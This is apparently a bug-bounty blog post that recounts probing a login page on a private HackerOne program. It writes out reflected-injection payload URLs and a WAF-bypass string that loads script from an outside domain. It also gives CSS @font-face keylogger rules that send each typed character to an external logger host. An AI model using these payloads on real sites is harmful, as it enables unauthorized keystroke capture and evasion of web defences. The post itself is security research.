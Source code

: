 ```yaml
---
layout: post
title: "CSS keylogger in action"
date: 2020-01-06
categories: blog
---
```


A quick round of Google dorking on a private [HackerOne](https://hackerone.com/) program revealed an interesting dynamic segment on a login page.
Inspecting the source, I gladly realized that the 24 character UUID string was being reflected in the DOM header.

`https://notactualwebsite.com/Service/(S(yx3i1snmqozalj5bxudebcga))/Login.aspx`

<!--more-->

![](/assets/posts/3/reflected-uuid.png)

Replacing the above mentioned UUID with `"` looked promising since I could break out of the `src` tag. I spent a good amount of time trying to pop an XSS, but the server was refusing URLs containing characters like `:` & `/`, and notably, it was protected by the Imperva WAF.

I tried some recently discovered Imperva WAF bypasses but without success. I noticed that using DOM events like `onload` I could call functions, and pass parameters using backticks. Functions like `alert` and `prompt` were blacklisted by the WAF.

Eventually, I tried calling functions defined by the native client-side but those attempts also tripped the WAF mechanism.

``https://notactualwebsitecom/Service/(S("%20onload=doOpenModal`evil.io`))/Login.aspx``

![](/assets/posts/3/imperva-waf.png)

I went back to do some more research about DOM events and discovered some interesting things about [onerror](https://developer.mozilla.org/en-US/docs/Web/API/GlobalEventHandlers/onerror):

* "`element.onerror` accepts a function with a single argument of type Event."
* "A good example for this is when you are using an image tag, and need to specify a backup image in case the one you need is not available on the server for any reason."
* `<img src="imagenotfound.gif" onerror="this.onerror=null;this.src='imagefound.gif';" />`"

The `onerror` handler was being called since the path to the file was corrupt. So I could just change the `src` to point to my script... right?

The shortest way was to prepend `//` and serve the file as root document. Something like `//path.to.js`. Using `/` directly was breaking the URL, and the WAF was blocking all attempts at encoding it. After jumping through several hoops I realized I can make use of the second part of the original string which contained a `/` as part of the path. I could assign it to another tag (`id`) and extract it the `/` using `concat`... twice.

WAF bypass
----------
``https://notactualwebsite.com/Service/(J(" type="javascript" onerror="this.src=this.id[2].repeat`2`.concat`js.sequrist.eu`" id="))/Login.aspx``

But this was just not working. I spent a good amount of time playing around with it but the script wouldn't load. I was ready to give up.

CSS keylogger
-------------

Luckily, a `link` tag was also reflecting the payload. And including an external CSS file worked. Not ideal, but I remembered the concept of [CSS keylogger](https://bytescout.com/blog/css-keylogger.html) - which esentially triggers an external request for a bogus font from the attacker's server everytime something is typed inside an input. The URL for the font is crafted to reveal the character as a query parameter.

* @font-face { font-family: x; src: url(//logger.sequrist.eu/log?a), local(Impact); unicode-range: U+61; }
* @font-face { font-family: x; src: url(//logger.sequrist.eu/log?b), local(Impact); unicode-range: U+62; }
* @font-face { font-family: x; src: url(//logger.sequrist.eu/log?c), local(Impact); unicode-range: U+63; }
* @font-face { font-family: x; src: url(//logger.sequrist.eu/log?d), local(Impact); unicode-range: U+64; }
* ...
* input { font-family: x, 'Comic sans ms'; }

Conclusion
----------

![](/assets/posts/3/hackerone-closed-informative.png)

* "Thanks for your report. As you might note, you won't be able to fully exfiltrate the whole user-id as the font is fetched only once per each char. Open your network tab, type abaab and observe only two requests are sent. That said, we're closing this as Informative unless you can prove it's possible to exfiltrate any sensitive info - such as the CSRF token for a logged-in user -. Your effort is nonetheless appreciated and we wish that you'll continue to research and submit any future security issues you find."

This [article](https://www.bram.us/2018/02/21/css-keylogger-and-why-you-shouldnt-worry-about-it/) explains the technical details and why this attack is almost harmless by itself.

Theoretically, this is a cross-site code injection attack. It provides a mechanism for bypassing the same-origin policy which might sound a little scary.
But in reality, it was just a good exercise; a challenging puzzle, better understanding of DOM events and everything brought together elegantly into something concrete.
